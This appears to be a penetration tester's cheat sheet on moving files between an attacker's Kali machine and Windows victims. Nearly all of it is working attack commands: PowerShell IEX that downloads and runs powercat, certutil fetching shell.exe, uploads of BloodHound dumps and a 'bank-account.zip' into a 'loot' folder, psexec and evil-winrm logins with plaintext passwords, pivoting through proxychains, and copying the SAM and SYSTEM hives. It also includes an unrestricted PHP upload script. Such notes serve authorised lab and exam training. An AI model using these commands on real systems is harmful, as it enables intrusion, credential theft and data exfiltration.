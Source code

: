 # Transferring Files

https://github.com/eMVee-NL/MindMap/tree/main/File-Transfer


Nothing is 100% bullet-proof. This is why I have several options to accomplish this.
1- As already mentioned, impacket-smbserver -smb2support test . is gold.
2- python -m pyftpdlib -w will spawn a ftp server on you kali. use the ftp command on windows to transfer the file(s).
3- On Kali: nc -lvp 4444 > TransferedFile on Windows: nc.exe <kali_ip> 4444 -w 5 < FileToTransfer
4- Using powercat + powershell. Host powercat.ps1(link: https://github.com/besimorhino/powercat/blob/master/powercat.ps1) in a webserver on the attacker machine. Execute powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://kali-ip/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoTransfer" On kali: wget http://windows-ip:4444/FileToTransfer
5- Host the below php on a php-enabled webserver on kali:

<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

Use a webbrowser on the victim to access the page and upload the desired file or use the below powershell to accomplish the same:

powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

powershell (New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:8888/upload.php', 'bloodhound.zip')


sudo systemctl apache2 start
sudo php -S 0.0.0.0:80
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.45.178:90/upload.php', 'bloodhound.zip')

### Powershell Linux to Windows
````
(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:8000/chisel.exe','C:\Windows\Tasks\chisel.exe')
````
### SMB Linux to Windows
````
impacket-smbserver -smb2support Share .
cmd.exe /c //<your kali IP>/Share/<file name you want>
````
````
/usr/local/bin/smbserver.py -username df -password df share . -smb2support
net use \\<your kali IP>\share /u:df df
copy \\<your kali IP>\share\<file wanted>
````
````
impacket-smbserver -smb2support Share .
net use \\<your kali IP>\share
copy \\<your kali IP>\share\whoami.exe
````
### Windows http server Linux to Windows
````
python3 -m http.server 80
certutil -urlcache -split -f http://<your kali IP>/shell.exe C:\\Windows\temp\shell.exe
````
````
Invoke-WebRequest -Uri http://10.10.93.141:7781/winPEASx64.exe -OutFile wp.exe
````
#### Errors
````
Access is denied. In this case try Invoke-WebRequest for powershell
````
### SMB Shares Windows to Windows
````
In this situation we have logged onto computer A
sudo impacket-psexec Admin:'password123'@192.168.203.141 cmd.exe
C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.203.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.203.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.93.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   
 Via Computer A we pivot to Computer B (internal IP) with these creds
 proxychains evil-winrm -u celia.almeda -p 7k8XHk3dMtmpnC7 -i 10.10.93.142
````
#### Accessing $C Drive of Computer A
````
*Evil-WinRM* PS C:\windows.old\Windows\system32> net use * \\10.10.93.141\C$ /user:Admin password123
````
#### Copying over files
````
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SYSTEM Z:\
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SAM Z:\
````
### SMB Server Bi-directional
````
impacket-smbserver -smb2support Share .
smbserver.py -smb2support Share .
mkdir loot #transfering loot to this folder
net use * \\192.168.119.183\share
copy Z:\<file you want from kali>
copy C:\bank-account.zip Z:\loot #Transfer files to the loot folder on your kali machine
````
#### Authenticated
````
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
````
````
impacket-smbserver -username df -password df share . -smb2support
net use \\10.10.16.9\share /u:df df
copy \\10.10.16.9\share\<file wanted>
````

### PHP Script Windows to Linux
````
cat upload.php
chmod +x upload.php
````
````
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
````
````
sudo mkdir /var/www/uploads
````
````
mv upload.php /var/www/uploads
````
````
service apache2 start
ps -ef | grep apache
`````
````
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.134.254:9999/upload.php', '.\dc_20240822153055_BloodHound.zip')"
````
````
service apache2 stop
````

Uploading files with TFTP.

```bash
root@kali:~# mkdir /tftp
root@kali:~# atftpd --daemon --port 69 /tftp
root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/
```